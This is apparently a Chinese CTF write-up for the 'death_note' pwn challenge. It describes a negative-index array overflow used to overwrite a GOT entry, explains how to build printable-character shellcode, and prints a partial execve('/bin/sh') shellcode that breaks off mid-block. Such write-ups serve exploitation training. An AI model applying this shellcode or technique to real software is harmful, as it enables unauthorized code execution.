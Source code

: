 ### death_note

#### 题目分析

题目是很经典的菜单题，没有开NX所以可以执行shellcode。漏洞也比较容易发现，在对idx进行检查时没有考虑小于零的情况而导致数组idx反向溢出，idx是一个int型变量这里应该检查idx是否小于零。

```c
v1 = read_int();
if ( v1 > 10 )
{
puts("Out of bound !!");
exit(0);
}

......

 *(&note + v1) = strdup(s);
```

#### 漏洞利用

保存note指针的数组在程序的bss段所以通过这个反向溢出可以直接覆盖got表，如果在note中保存商shellcode那么在执行库函数就可以进行执行流的劫持。

但是题目的难点在于，note中只能输入可见的字符，所以要求必须要写一段全部又可见字符构成的且大小小于80个字节的shellcode。

```c
  if ( !is_printable(s) )
  {
    puts("It must be a printable name !");
    exit(-1);
  }
  
  int __cdecl is_printable(char *s)
{
  size_t i; // [esp+Ch] [ebp-Ch]

  for ( i = 0; strlen(s) > i; ++i )
  {
    if ( s[i] <= 0x1F || s[i] == 0x7F )//必须是可见字符
      return 0;
  }
  return 1;
}
```

对于可见shellcode的构造又两种方式：

- 将写好的非可见字符shellcode进行编码为可见字符，在shellcode前加一段解码的指令，控制执行流之后先对shellcode进行解码，之后再执行shellcode，但是这样会导致shellcode过长。
- 还有一种方法就是使用可见指令进行shellcode的编写，只对某些必不可少的指令（int 0x80 , syscall）进行解码。这里的可见指令指的是，在进行汇编之后得到的机器码是可见字符。

因为题目限定了shellcode的长度所以，选用第二种方式。（eax = 0xb, ebx = sh_addr, ecx = 0 ,edx = 0）

```python
shellcode = '''
    /* execve(path='/bin///sh', argv=0, envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx
   /*rewrite shellcode to get 'int 80'*/
    push 0x60606060
    pop edx
    sub byte ptr[eax + 0x32] , dl
    sub byte ptr[eax + 0x32] , dl
```